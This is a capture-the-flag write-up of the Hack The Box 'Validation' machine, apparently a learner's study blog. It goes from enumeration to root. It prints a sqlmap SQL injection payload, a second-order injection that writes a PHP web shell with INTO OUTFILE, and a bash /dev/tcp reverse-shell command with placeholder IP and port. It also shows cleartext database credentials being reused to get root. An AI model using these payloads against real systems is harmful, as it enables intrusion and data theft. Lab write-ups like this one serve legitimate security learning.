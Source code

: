 ```yaml
---
title: "Validation HTB"
date: 2021-09-24T17:30:30
categories:
  - study
tags:
  - Linux
  - Web
  - SQLi
  - Password Reuse
  - ClearText Credentials
classes: wide
---
```

Validation is an easy rated retired linux box made by Ippsec for the Ultimate Hacking Championship(UHC) qualifier. 

It can be found [here.](https://app.hackthebox.eu/machines/Validation/)

<h2> Enumeration</h2>
**Nmap scan results:**

```
22/tcp   open     ssh            syn-ack     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http           syn-ack     Apache httpd 2.4.48 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
4566/tcp open     http           syn-ack     nginx
|_http-title: 403 Forbidden
5000/tcp filtered upnp           no-response
5001/tcp filtered commplex-link  no-response
5002/tcp filtered rfe            no-response
5003/tcp filtered filemaker      no-response
5004/tcp filtered avt-profile-1  no-response
5005/tcp filtered avt-profile-2  no-response
5006/tcp filtered wsm-server     no-response
5007/tcp filtered wsm-server-ssl no-response
5008/tcp filtered synapsis-edge  no-response
8080/tcp open     http           syn-ack     nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<h4>What is the scan telling us?</h4>

- Port 22 is running the usual ssh, specifically OpenSSH 8.2p1 Ubuntu.
- Port 80 is running an Apache http server, Apache 2.4.48.
- Port 4566, 8080 are running nginx servers?
- Ports 5000-5008 are appearing but are filtered despite the `-Pn` on the Nmap scan.

<h4> Why are these ports filtered?</h4>

0xdf may have provided an explanation on their [blog](https://0xdf.gitlab.io/2021/09/14/htb-validation.html#beyond-root):

>*"I noticed ports 5000-5008 were filtered in my initial nmap scan. These ports are actually different Docker instances of the same exploitable webapp (I think he actually used 5000-5031). Then he has a kernel module that is re-writing incoming packets for TCP 80 based on the source IP to one of the containers, so there’s significantly fewer players interacting with each instance."*

<h4>What is Nginx?</h4>

According to the [official site](https://www.nginx.com), Nginx is an *"open source web server that powers more than 400 million websites"*. It also seems to have features that allow it to be used as a reverse proxy, load balancer, mail proxy and HTTP cache.

**Gobuster:**

```
/index.php (Status: 200)
/account.php (Status: 200)
/css (Status: 301)
/js (Status: 301)
/config.php (Status: 200)
/server-status (Status: 403)
```

Navigating to http://10.10.11.116:4566/ , we see 403 forbidden nginx. 
`/config.php` looks interesting but unfortunately returns a blank page.

Navigating to the main site on port 80 we see a username field and a drop down list of countries. The site seems to be asking us to "Register Now" for "Join the UHC - September Qualifiers". 

Inputting strings and clicking "Join Now" leads us to `/account.php` and a list of other usernames that have been entered before. This suggests that this information has been stored.

Accessing `/account.php` from the index directly seems to bring us to the last country we submitted a username to, which suggests a cookie associated with the submission. Deleting the cookie results in the /account.php stage asking us to "Please register!".

Registering to Brazil again and we still see the usernames registered before, confirming the storage of input on the website.

**sqlmap**
```
Parameter: country (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=lVdH&country=Brazil' AND (SELECT 6558 FROM (SELECT(SLEEP(5)))TuOt) AND 'FzfL'='FzfL
---
do you want to exploit this SQL injection? [Y/n] y
[08:49:19] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.48, PHP 7.4.23
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```

Sqlmap lets us know that the backend database is MySQL 5.0.12 and the site is running PHP 7.4.23 and there is clearly some capability for SQLi.

I admit that I don't know much about SQL and SQL injections. Gonna have to read the writeups for foothold.

<h2>Foothold</h2>

It seems that this website and database are vulnerable to something known as a second order SQL injection. [Portswigger](https://portswigger.net/kb/issues/00100210_sql-injection-second-order) describes this as:

>*"Second-order SQL injection arises when user-supplied data is stored by the application and later incorporated into SQL queries in an unsafe way. To detect the vulnerability, it is normally necessary to submit suitable data in one location, and then use some other application function that processes the data in an unsafe way."*

We open up **burpsuite** in order to intercept the form.

It seems that when we supply a country and username to the form on the website, we see in burpsuite intercept it looks like:

```
username=test&country=Brazil
```

And then if we add a single quote `'` to the end of Brazil to break the SQL, like so:
```
username=test&country=Brazil'
```

And then forward the request, we get as a response on the `/account.php` page: 

```
Fatal error: Uncaught Error: Call to a member function fetch_assoc() on bool in 
/var/www/html/account.php:33 Stack trace: #0 {main} thrown in /var/www/html/account.php on line 33
```
This shows that the site is taking our user-supplied data and then incorporating it into the account.php query, a "Second-order SQL injection". 

So it is possible to write a file into the `/var/www/html` directory, which means we can place a simple php web shell onto the box by way of our burpsuite request with SQL commands: 

```
username=test&country=Brazil' union select "<?php SYSTEM($_REQUEST['cmd']); ?>" into outfile '/var/www/html/rev.php'-- -
```

The initial command `union select` is indicating that we wish to execute additional select queries. The command `into outfile` is explained by the [mysql documentation](https://dev.mysql.com/doc/refman/8.0/en/select-into.html) as:

>*"The SELECT ... INTO OUTFILE 'file_name' form of SELECT writes the selected rows to a file. The file is created on the server host, so you must have the FILE privilege to use this syntax. file_name cannot be an existing file, which among other things prevents files such as /etc/passwd and database tables from being modified."*

So we are saying, whatever is selected in the backend, also select (union select) `"<?php SYSTEM($_REQUEST['cmd']); ?>"` (php webshell code) and put it into a file in `/var/www/html/` called `rev.php`. 

The addition of `-- -` at the end ensures that the command is ended, as anything after the double hyphen and space is a comment.

From here we can navigate to our simple php shell and add commands after `?cmd=` like so:

```
http://10.10.11.116/rev.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

Now we have RCE we can setup a reverse shell.

We setup our nc listener, find a bash tcp reverse shell, url encode it and then execute the following in the url:

```
10.10.11.116/rev.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/YOURIP/YOURPORT+0>%261'
```

We then catch our shell, and have access as `www-data`. We navigate to `/home/htb` and find the userflag.


<h2>Privilege Escalation</h2>

Checking the writeup and it all seems so obvious...

Remember that blank `config.php` we saw in gobuster earlier?

It was blank because we did not have permission to view it.

Now we can read the contents:

```bash
www-data@validation:/var/www/html$ cat config.php
cat /var/www/html/config.php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>

```

This password conveniently contains the phrase "global-pw", which suggests it is a reused password. We test and it can be used to `su root`. We do this, enter the password and now we have a root shell!

The flag is found in the usual `/root/root.txt`.

<h4>For next time:</h4>

- Learn about SQL, learn how SQL injection works. There's a fun SQL murder mystery from [knight lab](https://mystery.knightlab.com/) that looks cool.
- Remember to enumerate the /www/html directory. Especially for a web box, config.php is a good find and should have been checked immediately. 


